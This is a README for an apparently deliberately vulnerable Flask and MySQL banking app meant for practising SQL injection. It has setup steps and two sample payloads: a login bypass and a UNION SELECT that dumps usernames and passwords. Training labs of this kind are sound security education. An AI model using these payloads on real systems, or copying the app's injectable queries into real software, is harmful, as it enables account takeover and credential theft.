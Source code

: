 # broke-bank
Mock banking application built with Flask and MySQL. Use this to practice SQL injection!

# Setup

## 1. Install MySQL
https://dev.mysql.com/downloads/installer/

## 2. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 3. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/Scripts/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 4. Install dependencies
```shell
pip install -r requirements.txt
```

## 5. Create .env file for environment variables (place in /broke-bank/)
Make sure to replace `myusername` and `mypassword` with your MySQL credentials.
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=myusername
MYSQL_PASSWORD=mypassword
```

## 6. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

